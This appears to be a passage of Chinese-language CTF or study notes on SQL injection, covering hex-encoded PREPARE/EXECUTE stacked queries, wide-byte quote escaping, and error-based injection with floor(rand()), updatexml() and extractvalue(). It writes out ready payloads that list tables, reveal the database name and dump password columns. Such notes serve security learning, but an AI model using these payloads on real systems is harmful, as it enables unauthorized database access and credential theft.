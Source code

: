 * 概念

    预编译语句的优势在于归纳为：*一次编译、多次运行*，省去了解析优化等过程；此外预编译语句能防止 SQL 注入。　MySQL 预处理语句的支持版本较早，所以我们目前普遍使用的 MySQL 版本都是支持这一语法的。

* 方法

    ```php
    PREPARE name from '[my sql sequece]';   //预定义SQL语句
    EXECUTE name;  //执行预定义SQL语句
    (DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
    ```
    `?username=user1';PREPARE sprint from 0x73656c6563742067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d64617461626173652829;EXECUTE sprint;`十六进制为(select group_concat(table_name) from information_schema.tables where table_schema=database())

    注意，转十六进制使用https://www.sojson.com/hexadecimal.html，BEJSON有点不准

## 宽字节注入

* 原理

    宽字节占用两个字节，普通字符占用一个字节，而页面在解码的时候将一个宽字节分为两个普通字节来解码，导致包含单引号的字节逃逸

    `%D3%27` 导致分开解码，后面的单引号逃逸

## 报错注入

* `floor()`

    `floor()`函数作用是返回`小于等于`该值的最大整数，只保留整数部分

    `rand()`函数作用，生成一个大于等于`0`，小于所给参数的值，默认生成`[0,1)`

    `rand(0)`生成伪随机数，每次生成的随机数都是一样的，所以利用这一特点报错注入

    `group by`函数特性:进行数据整合之前会将每行数据逐条读入一个虚表中，先根据数据库中的内容对虚表进行查询，如果虚表内没有这一条数据就进行插入操作，如果有就更新`count(*)`(自己加的函数),经过`rand()`计算伪随机数造成查询插入两个过程的键值不一样，将0键值插入到虚表的1键值上导致键值重复而产生的报错

    * 用法

    `floor(rand(0)*2)`生成的伪随机数列为`0,1,1,0,1,1`（这前六位是固定的）


    `select null,count(*),group_concat((select database()),floor(rand(0)*2)) as a from information_schema.schemata group by a --+`

* `updatexml()`

    `updatexml(XML_DOCUMENT,X_PATH_STRING,new Value)`是这个函数的正确用法，当用户输入与其格式不符的数据时就会发生报错，常用方法

    `updatexml(1,(concat('~',(select database()),'~')),1)`
    `updatexml(1,concat('~',(select(group_concat(left(password,30)))from(H4rDsq1)),'~'),1)#`

* `extractvalue()`

    `extractvalue(XML_DOCUMENT,X_PATH_String)`是这个函数的正确用法

